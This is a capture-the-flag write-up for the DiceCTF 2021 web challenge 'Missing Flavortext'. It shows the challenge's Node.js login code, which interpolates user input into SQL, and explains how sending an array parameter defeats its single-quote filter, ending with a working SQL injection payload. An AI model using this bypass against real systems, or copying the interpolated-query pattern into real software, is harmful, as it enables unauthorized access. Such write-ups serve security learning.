


# Missing Flavortext

- CTF: DiceCTF 2021
- Category: Web


## Instructions

Hmm, it looks like there's no flavortext here. Can you try and find it?

[missing-flavortext.dicec.tf](missing-flavortext.dicec.tf)

```js
const crypto = require('crypto');
const db = require('better-sqlite3')('db.sqlite3')

// remake the `users` table
db.exec(`DROP TABLE IF EXISTS users;`);
db.exec(`CREATE TABLE users(
  id INTEGER PRIMARY KEY AUTOINCREMENT,
  username TEXT,
  password TEXT
);`);

// add an admin user with a random password
db.exec(`INSERT INTO users (username, password) VALUES (
  'admin',
  '${crypto.randomBytes(16).toString('hex')}'
)`);

const express = require('express');
const bodyParser = require('body-parser');

const app = express();

// parse json and serve static files
app.use(bodyParser.urlencoded({ extended: true }));
app.use(express.static('static'));

// login route
app.post('/login', (req, res) => {
  if (!req.body.username || !req.body.password) {
    return res.redirect('/');
  }

  if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
    return res.redirect('/');
  }

  // see if user is in database
  const query = `SELECT id FROM users WHERE
    username = '${req.body.username}' AND
    password = '${req.body.password}'
  `;

  let id;
  try { id = db.prepare(query).get()?.id } catch {
    return res.redirect('/');
  }

  // correct login
  if (id) return res.sendFile('flag.html', { root: __dirname });

  // incorrect login
  return res.redirect('/');
});

app.listen(3000);

```

## Analysis

The login page has a filter used to detect single quote in the query params:

`[req.body.username, req.body.password].some(v => v.includes('\''))`

It's basically looking for a string within a string. If we somehow change the params to be a different type, that still respond to the includes method, but behave differently, we might be able to bypass this filter.

The Array type looks promissing as includes on an array look for the specific element, which in out case is `'\''`.



We can now retrieve the flag with the following params:

`username=admin&password[]=' OR 1=1 -- &password[]=\'`


